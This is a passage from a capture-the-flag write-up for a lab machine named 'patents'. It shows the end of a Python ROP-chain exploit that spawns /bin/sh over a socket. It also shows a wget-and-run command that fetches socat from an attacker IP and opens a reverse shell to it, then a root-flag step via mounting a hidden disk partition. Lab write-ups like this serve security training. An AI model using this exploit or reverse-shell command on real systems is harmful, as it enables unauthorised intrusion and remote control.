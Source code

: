 ```python
payload += urllib.parse.quote(p64(pop_rsi_and_r15))
payload += urllib.parse.quote(p64(0x1))
payload += urllib.parse.quote(p64(0xdeadbeef)) #ignored
payload += urllib.parse.quote(p64(dup2))

payload += urllib.parse.quote(p64(pop_rdi))
payload += urllib.parse.quote(p64(0x6))
payload += urllib.parse.quote(p64(pop_rsi_and_r15))
payload += urllib.parse.quote(p64(0x2))
payload += urllib.parse.quote(p64(0xdeadbeef)) #ignored
payload += urllib.parse.quote(p64(dup2))

payload += urllib.parse.quote(p64(nop)) # needed this to align on the remote server

payload += urllib.parse.quote(p64(pop_rdi))
payload += urllib.parse.quote(p64(bin_sh))
payload += urllib.parse.quote(p64(system))

theRequest = getRequest(payload)

r.send(theRequest)
r.interactive()
```

We end up getting a remote shell but it dies quickly so we run socat to listen with ```socat file:`tty`,raw,echo=0 tcp-listen:12345```.  Then we quickly download socat, chmod it, and then connect the shell with `wget http://10.10.14.18/tools/socat64s && chmod +x socat64s && ./socat64s exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.18:12345`.

## Finding root.txt
```sh
root@patents:/mnt# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0    7:0    0 54.2M  1 loop /snap/lxd/10756
loop1    7:1    0 89.1M  1 loop /snap/core/8268
loop2    7:2    0 66.7M  1 loop /snap/lxd/9239
loop3    7:3    0 54.9M  1 loop /snap/lxd/12631
loop4    7:4    0 89.1M  1 loop /snap/core/8039
sda      8:0    0   25G  0 disk 
├─sda1   8:1    0    1M  0 part 
├─sda2   8:2    0   16G  0 part /
├─sda3   8:3    0    1G  0 part /boot
└─sda4   8:4    0    2G  0 part /home
sdb      8:16   0  512M  0 disk 
└─sdb1   8:17   0  511M  0 part /root
sr0     11:0    1 1024M  0 rom
```
 It looks like `/root` might be mounted on top of another root on `sda2`.  So let's mount it with `mount /dev/sda2 /mnt/sda2`.  Now when we look in `/mnt/sda2/root` we find

 ```sh
 root@patents:/mnt/root/root# ls -la
total 68
drwx------  8 root root  4096 Dec  3 14:07 .
drwxr-xr-x 23 root root  4096 Jan 12 00:03 ..
lrwxrwxrwx  1 root root     9 May 20  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root  3106 Aug  7  2018 .bashrc
drwx------  2 root root  4096 Dec  3 14:07 .cache
drwx------  3 root root  4096 Dec  3 14:07 .gnupg
drwxr-xr-x  3 root root  4096 Dec  3 14:07 .local
-rw-r--r--  1 root root   148 Aug  7  2018 .profile
-r--------  1 root root    33 May 21  2019 root.txt
drwxr-xr-x  2 root root  4096 Dec  3 14:07 secret
drwxr-xr-x  3 root root  4096 Dec  3 14:07 snap
 ```